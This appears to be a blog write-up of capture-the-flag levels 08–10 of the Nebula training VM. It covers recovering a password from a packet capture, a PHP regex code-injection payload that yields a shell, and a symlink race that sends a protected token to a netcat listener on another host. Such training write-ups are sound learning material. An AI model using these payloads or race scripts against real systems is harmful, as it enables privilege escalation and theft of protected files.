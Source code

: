 Title: Exploit Education - Nebula Part 3
Date: 2020-09-07
Modified: 2020-09-08
Category: Learning
Tags: ctf, exploit, nebula

## [Level 08](https://exploit.education/nebula/level-08/)

#### Solution
This sounds easy enough. Just go to `flag08` directory and see what kind of files are there.
At first, I felt intimidated by `root:root` access to `capture.pcap` file. However, it occured that the file allows to be read by anyone. In that case, we might be able to copy it and retrieve necessary information.

#### Result
After downloading `capture.pcap` I was able to open it with `wireshark`, where I've seen some tcp traffic. By selecting `Follow TCP` I've noticed that this is dump of someone's login attempts.

```
..wwwbugs login: l.le.ev.ve.el.l8.8
..
Password: backdoor...00Rm8.ate
.
..
Login incorrect
wwwbugs login:
```

However, hex dump shows some more details
```
000000B9  62                                                 b
000000BA  61                                                 a
000000BB  63                                                 c
000000BC  6b                                                 k
000000BD  64                                                 d
000000BE  6f                                                 o
000000BF  6f                                                 o
000000C0  72                                                 r
000000C1  7f                                                 .
000000C2  7f                                                 .
000000C3  7f                                                 .
000000C4  30                                                 0
000000C5  30                                                 0
000000C6  52                                                 R
000000C7  6d                                                 m
000000C8  38                                                 8
000000C9  7f                                                 .
000000CA  61                                                 a
000000CB  74                                                 t
000000CC  65                                                 e
000000CD  0d                                                 .
```
One can notice, that `x7f` equals to `backspace`. It probably means, that user pressed wrong key, and removed it.
After decyphering it, it seems to be `backd00Rmate`.
```
➜  ~ ssh flag08@nebula
flag08@nebula:~$ ls
capture.pcap
flag08@nebula:~$ getflag
You have successfully executed getflag on a target account
flag08@nebula:~$
```

## [Level 09](https://exploit.education/nebula/level-09/)

I couldn't crack this one, so I searched for solution over the internet. This one is explaining it very good: [Lucian Nitescu](https://nitesculucian.github.io/2018/07/16/exploit-exercises-nebula-level-09/). Unfortunately, my php knowledge is not the best.

#### Solution
We need to use both `$filename` and `$use_me` variables. First one needs to contain payload, second will contain program name.

#### Result
```bash
level09@nebula:~$ cat exploit.php
[email {${system(sh)}}]
level09@nebula:~$ ~flag09/flag09 exploit.php .
PHP Notice:  Use of undefined constant sh - assumed 'sh' in /home/flag09/flag09.php(15) : regexp code on line 1
sh-4.2$ whoami
flag09
sh-4.2$ getflag
You have successfully executed getflag on a target account
sh-4.2$
```

Interesting that, when I replaced `sh` with `bash` it is not working:
```bash
PHP Notice:  Use of undefined constant bash - assumed 'bash' in /home/flag09/flag09.php(15) : regexp code on line 1
bash-4.2$ whoami
level09
bash-4.2$ getflag
getflag is executing on a non-flag account, this doesn't count
```

One can always provide `$use_me` variable too.

```bash
level09@nebula:~$ cat exploit.php
[email {${system($use_me)}}]
level09@nebula:~$ ~flag09/flag09 exploit.php getflag
You have successfully executed getflag on a target account
PHP Notice:  Undefined variable: You have successfully executed getflag on a target account in /home/flag09/flag09.php(15) : regexp code on line 1

level09@nebula:~$ ~flag09/flag09 exploit.php sh
sh-4.2$ whoami
flag09
```

## [Level 10](https://exploit.education/nebula/level-10/)

TOCTOU == Time of Check, Time of Use

This is another one, where I spent significant amount of time. Even if I know how it suppose to work, I haven't been able to implement the solution correctly.

#### Solution
Time of Check, Time of Use means, that when program is running, it needs to verify an access to file, where we have an access. However, after doing that, we need to swap this file, with another one, which is unavailable to us.

#### Result
Nebula instance:
```bash
level10@nebula:~$ touch my_file
level10@nebula:~$ while true; do ln -sf /home/flag10/token token; ln -sf my_file token; done &
[1] 4467
level10@nebula:~$ while true; do /home/flag10/flag10 token debian; done
You don't have access to token
You don't have access to token
Connecting to debian:18211 .. Connected!
Sending file .. wrote file!
Connecting to debian:18211 .. Unable to connect to host debian
```

Second instance
```bash
dasm@debian:~$ nc -klp 18211 > received
dasm@debian:~$ cat received
.oO Oo.
615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
```

Nebula instance
```bash
level10@nebula:~$ su flag10
Password:  # use found token
sh-4.2$ getflag
You have successfully executed getflag on a target account
```
